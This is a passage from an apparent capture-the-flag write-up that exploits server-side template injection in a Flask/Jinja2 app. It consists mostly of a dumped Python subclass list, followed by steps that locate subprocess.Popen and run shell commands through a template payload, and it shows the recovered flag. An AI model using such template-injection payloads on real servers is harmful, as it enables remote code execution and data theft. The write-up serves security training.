'_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'zipimport.zipimporter'>, <class 'zipimport._ZipImportResourceReader'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'enum.auto'>, <enum 'Enum'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 'sre_parse.State'>, <class 'sre_parse.SubPattern'>, <class 'sre_parse.Tokenizer'>, <class 're.Scanner'>, <class 'string.Template'>, <class 'string.Formatter'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'typing._Final'>, <class 'typing._Immutable'>, <class 'typing.Generic'>, <class 'typing._TypingEmpty'>, <class 'typing._TypingEllipsis'>, <class 'typing.NamedTuple'>, <class 'typing.io'>, <class 'typing.re'>, <class '_ast.AST'>, <class 'markupsafe._MarkupEscapeHelper'>, <class 'select.poll'>, <class 'select.epoll'>, <class 'selectors.BaseSelector'>, <class '_socket.socket'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class 'socketserver.BaseServer'>, <class 'socketserver.ForkingMixIn'>, <class 'socketserver._NoThreads'>, <class 'socketserver.ThreadingMixIn'>, <class 'socketserver.BaseRequestHandler'>, <class 'datetime.date'>, <class 'datetime.timedelta'>, <class 'datetime.time'>, <class 'datetime.tzinfo'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_sha512.sha384'>, <class '_sha512.sha512'>, <class '_random.Random'>, <class 'urllib.parse._ResultMixinStr'>, <class 'urllib.parse._ResultMixinBytes'>, <class 'urllib.parse._NetlocResultMixinBase'>, <class 'calendar._localized_month'>, <class 'calendar._localized_day'>, <class 'calendar.Calendar'>, <class 'calendar.different_locale'>, <class 'email._parseaddr.AddrlistClass'>, <class 'Struct'>, <class 'unpack_iterator'>, <class 'email.charset.Charset'>, <class 'email.header.Header'>, <class 'email.header._ValueFormatter'>, <class 'email._policybase._PolicyBase'>, <class 'email.feedparser.BufferedSubFile'>, <class 'email.feedparser.FeedParser'>, <class 'email.parser.Parser'>, <class 'email.parser.BytesParser'>, <class 'email.message.Message'>, <class 'http.client.HTTPConnection'>, <class '_ssl._SSLContext'>, <class '_ssl._SSLSocket'>, <class '_ssl.MemoryBIO'>, <class '_ssl.Session'>, <class 'ssl.SSLObject'>, <class 'mimetypes.MimeTypes'>, <class 'zlib.Compress'>, <class 'zlib.Decompress'>, <class '_bz2.BZ2Compressor'>, <class '_bz2.BZ2Decompressor'>, <class '_lzma.LZMACompressor'>, <class '_lzma.LZMADecompressor'>, <class 'tokenize.Untokenizer'>, <class 'traceback.FrameSummary'>, <class 'traceback.TracebackException'>, <class 'logging.LogRecord'>, <class 'logging.PercentStyle'>, <class 'logging.Formatter'>, <class 'logging.BufferingFormatter'>, <class 'logging.Filter'>, <class 'logging.Filterer'>, <class 'logging.PlaceHolder'>, <class 'logging.Manager'>, <class 'logging.LoggerAdapter'>, <class 'werkzeug._internal._Missing'>, <class 'werkzeug.exceptions.Aborter'>, <class '_hashlib.HASH'>, <class '_blake2.blake2b'>, <class '_blake2.blake2s'>, <class '_sha3.sha3_224'>, <class '_sha3.sha3_256'>, <class '_sha3.sha3_384'>, <class '_sha3.sha3_512'>, <class '_sha3.shake_128'>, <class '_sha3.shake_256'>, <class 'tempfile._RandomNameSequence'>, <class 'tempfile._TemporaryFileCloser'>, <class 'tempfile._TemporaryFileWrapper'>, <class 'tempfile.SpooledTemporaryFile'>, <class 'tempfile.TemporaryDirectory'>, <class 'urllib.request.Request'>, <class 'urllib.request.OpenerDirector'>, <class 'urllib.request.BaseHandler'>, <class 'urllib.request.HTTPPasswordMgr'>, <class 'urllib.request.AbstractBasicAuthHandler'>, <class 'urllib.request.AbstractDigestAuthHandler'>, <class 'urllib.request.URLopener'>, <class 'urllib.request.ftpwrapper'>, <class 'http.cookiejar.Cookie'>, <class 'http.cookiejar.CookiePolicy'>, <class 'http.cookiejar.Absent'>, <class 'http.cookiejar.CookieJar'>, <class 'werkzeug.datastructures.ImmutableListMixin'>, <class 'werkzeug.datastructures.ImmutableDictMixin'>, <class 'werkzeug.datastructures._omd_bucket'>, <class 'werkzeug.datastructures.Headers'>, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>, <class 'werkzeug.datastructures.IfRange'>, <class 'werkzeug.datastructures.Range'>, <class 'werkzeug.datastructures.ContentRange'>, <class 'werkzeug.datastructures.FileStorage'>, <class 'dis.Bytecode'>, <class 'inspect.BlockFinder'>, <class 'inspect._void'>, <class 'inspect._empty'>, <class 'inspect.Parameter'>, <class 'inspect.BoundArguments'>, <class 'inspect.Signature'>, <class 'dataclasses._HAS_DEFAULT_FACTORY_CLASS'>, <class 'dataclasses._MISSING_TYPE'>, <class 'dataclasses._FIELD_BASE'>, <class 'dataclasses.InitVar'>, <class 'dataclasses.Field'>, <class 'dataclasses._DataclassParams'>, <class 'werkzeug.sansio.multipart.Event'>, <class 'werkzeug.sansio.multipart.MultipartDecoder'>, <class 'werkzeug.sansio.multipart.MultipartEncoder'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'importlib.abc.ResourceReader'>, <class 'pkgutil.ImpImporter'>, <class 'pkgutil.ImpLoader'>, <class 'hmac.HMAC'>, <class 'werkzeug.wsgi.ClosingIterator'>, <class 'werkzeug.wsgi.FileWrapper'>, <class 'werkzeug.wsgi._RangeWrapper'>, <class '_json.Scanner'>, <class '_json.Encoder'>, <class 'json.decoder.JSONDecoder'>, <class 'json.encoder.JSONEncoder'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.user_agent.UserAgent'>, <class 'werkzeug.sansio.request.Request'>, <class 'werkzeug.sansio.response.Response'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'numbers.Number'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'uuid.UUID'>, <class '_pickle.Unpickler'>, <class '_pickle.Pickler'>, <class '_pickle.Pdata'>, <class '_pickle.PicklerMemoProxy'>, <class '_pickle.UnpicklerMemoProxy'>, <class 'pickle._Framer'>, <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class 'jinja2.bccache.Bucket'>, <class 'jinja2.bccache.BytecodeCache'>, <class 'jinja2.utils.MissingType'>, <class 'jinja2.utils.LRUCache'>, <class 'jinja2.utils.Cycler'>, <class 'jinja2.utils.Joiner'>, <class 'jinja2.utils.Namespace'>, <class 'jinja2.nodes.EvalContext'>, <class 'jinja2.nodes.Node'>, <class 'jinja2.visitor.NodeVisitor'>, <class 'jinja2.idtracking.Symbols'>, <class 'jinja2.compiler.MacroRef'>, <class 'jinja2.compiler.Frame'>, <class 'jinja2.runtime.TemplateReference'>, <class 'jinja2.runtime.Context'>, <class 'jinja2.runtime.BlockReference'>, <class 'jinja2.runtime.LoopContext'>, <class 'jinja2.runtime.Macro'>, <class 'jinja2.runtime.Undefined'>, <class 'ast.NodeVisitor'>, <class 'jinja2.lexer.Failure'>, <class 'jinja2.lexer.TokenStreamIterator'>, <class 'jinja2.lexer.TokenStream'>, <class 'jinja2.lexer.Lexer'>, <class 'jinja2.parser.Parser'>, <class 'jinja2.environment.Environment'>, <class 'jinja2.environment.Template'>, <class 'jinja2.environment.TemplateModule'>, <class 'jinja2.environment.TemplateExpression'>, <class 'jinja2.environment.TemplateStream'>, <class 'jinja2.loaders.BaseLoader'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local._ProxyLookup'>, <class 'werkzeug.routing.converters.BaseConverter'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'werkzeug.routing.rules.RulePart'>, <class 'werkzeug.routing.rules.RuleFactory'>, <class 'werkzeug.routing.rules.RuleTemplate'>, <class 'werkzeug.routing.matcher.State'>, <class 'werkzeug.routing.matcher.StateMachineMatcher'>, <class 'werkzeug.routing.map.Map'>, <class 'werkzeug.routing.map.MapAdapter'>, <class 'gettext.NullTranslations'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class '_csv.Dialect'>, <class '_csv.reader'>, <class '_csv.writer'>, <class 'csv.Dialect'>, <class 'csv.DictReader'>, <class 'csv.DictWriter'>, <class 'csv.Sniffer'>, <class 'zipfile.ZipInfo'>, <class 'zipfile.LZMACompressor'>, <class 'zipfile.LZMADecompressor'>, <class 'zipfile._SharedFile'>, <class 'zipfile._Tellable'>, <class 'zipfile.ZipFile'>, <class 'zipfile.Path'>, <class 'pathlib._Flavour'>, <class 'pathlib._Accessor'>, <class 'pathlib._Selector'>, <class 'pathlib._TerminatingSelector'>, <class 'pathlib.PurePath'>, <class 'zipp.InitializedState'>, <class 'zipp.Path'>, <class 'textwrap.TextWrapper'>, <class 'importlib_metadata._compat.NullFinder'>, <class 'importlib_metadata.Sectioned'>, <class 'importlib_metadata.DeprecatedTuple'>, <class 'importlib_metadata.FileHash'>, <class 'importlib_metadata.Distribution'>, <class 'importlib_metadata.DistributionFinder.Context'>, <class 'importlib_metadata.FastPath'>, <class 'importlib_metadata.Lookup'>, <class 'importlib_metadata.Prepared'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.scaffold.Scaffold'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'itsdangerous._json._CompactJSON'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'unicodedata.UCD'>]
  </p>
</details>

Scrolling through the output, we look for possible ways to achieve RCE. Luckily, there is a `<class 'subprocess.Popen'>` at index `350`.  
(btw i slowly did `300:`, `320:`, `340:`)

4. Entering this: `{{''.__class__.__mro__[1].__subclasses__()[350]}}` confirms it is at index `350`.

5. Finally, use it like a normal function, appending `('ls',shell=True,stdout=-1).communicate()` and it returns `(b'app.py\nflag\nrequirements.txt\ntemplates\n', None)`

6. Final Payload: `{{''.__class__.__mro__[1].__subclasses__()[350]('cat flag',shell=True,stdout=-1).communicate()}}` returns what looks like a binary. But we don't need to run it. Just `ctrl+f` `ACSI` in your browser and you get:

Flag: `ACSI{s0m3t1m3s_my_g3n1u5...it5...it5_alm05t_fr1ght3ning...}`
